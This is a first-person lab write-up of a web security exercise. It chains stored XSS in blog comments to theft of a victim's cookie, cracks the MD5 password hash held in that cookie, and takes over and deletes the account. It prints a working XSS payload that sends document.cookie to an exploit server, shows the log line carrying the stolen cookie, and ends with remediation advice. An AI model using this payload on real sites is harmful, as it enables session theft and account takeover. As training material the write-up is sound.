# Offline Password Cracking

## Objective

To solve the lab, I needed to obtain Carlos's stay-logged-in cookie and use it to crack his password. Once I had the password, I would log in as Carlos and delete his account from the "My account" page.

**My credentials:** `wiener:peter`  
**Target:** `carlos`

---

## Background

This lab stores the user's password hash inside a cookie. It also contains a stored XSS vulnerability in the comment functionality which is the intended path to stealing the victim's cookie.

---

## Tools Used

- Burp Suite
- Google Chrome

---

## Methodology

I started by logging in with the provided credentials to understand how the application handles authentication. My first goal was to figure out what the `stay-logged-in` cookie actually contained before going after Carlos's.



Looking at the `POST /login` request in Burp, I could see the parameters being sent: `username=wiener&password=peter&stay-logged-in=on`. The server responded with a `302` redirect and issued a `Set-Cookie` header carrying the `stay-logged-in` value.



The next request was `GET /my-account?id=wiener` — had the cookie attached, which gave me a clean sample to work with.



I noted the cookie value and sent it to Burp Decoder, decoding it as Base64. What came back was `wiener:<md5_hash>`. I ran that hash through a reverse MD5 lookup tool and it came back as `peter`.. my own password. That told me everything I needed to know: the cookie is built entirely from `base64(username:md5(password))`.



Knowing the structure, I could have gone straight to brute-forcing Carlos's cookie by hashing wordlist passwords with MD5, prefixing each with `carlos:`, and Base64-encoding the result. But the lab pointed at an XSS vulnerability in the comment section, which meant the intended path was to steal Carlos's cookie directly while he was authenticated.

I logged out, opened a blog post, and scrolled to the comment section. Comments were being rendered on the page, so I dropped in a test payload to check for reflected execution:

```
<ScrIpT>alert(HACKED!)</ScripT>
```



That didn't fire. I tried standard lowercase tags next but still nothing on that post. I moved to a different blog and simplified to `alert(1)` and that executed.



The vulnerability was there, just not with every test payload. With XSS confirmed, I opened the exploit server to get its URL.



I then crafted a payload that would redirect any authenticated visitor's browser to my exploit server with their cookie appended to the URL:

```html
<script>document.location='https://exploit-0a7d00de033736688366220501aa00d3.exploit-server.net/exploit'+document.cookie</script>
```

I submitted it as a comment on the vulnerable post.



Then I checked the exploit server's access log and found exactly what I was looking for, a request from the victim's browser carrying Carlos's cookie in the path:

```
10.0.3.54  2026-11-09 00:16:06 +0000 "GET /exploitsecret=hhLbRRNjL4GZPxXCsWztvW73uGRltvAA;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/156.0.0.0 Safari/537.36"
```



I had the `stay-logged-in` cookie: `Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz`. I sent it to Burp Decoder and Base64-decoded it, which returned `carlos:26323c16d5f4dabff3bb136f2460a943`. I ran the MD5 hash through the reverse lookup tool and it resolved to `onceuponatime`.



Carlos's password was now in hand.



I logged in as Carlos using the recovered credentials. Authentication went through without issue. The last step was to navigate to the "My Account" page and delete his account.


---

## Results

Starting from a known cookie structure and a stored XSS vulnerability, I was able to steal Carlos's authenticated session cookie, decode it, crack the MD5 hash offline, and use the recovered password to log in and delete his account. The full chain; XSS to cookie theft to credential recovery to account takeover, completed without any brute-force guessing.

---

## Reflection

What made this attack work wasn't the XSS alone - it was the insecure cookie design underneath it. Storing `base64(username:md5(password))` as a persistent authentication token is broken at a fundamental level: MD5 is not a password hashing function, it has no salt, and the entire cookie is reversible the moment an attacker gets their hands on the value. The XSS just made getting that value trivial.

The fix has to happen on both surfaces. The cookie should be an opaque, randomly generated token stored server-side and not something derived from the user's password at all. That way, stealing the cookie doesn't expose credentials, and cracking it offline becomes a non-issue. On the password storage side, MD5 needs to be replaced with a proper hashing algorithm like bcrypt or Argon2, which are designed specifically to be slow and resistant to offline cracking. Neither fix alone is sufficient, both have to land together.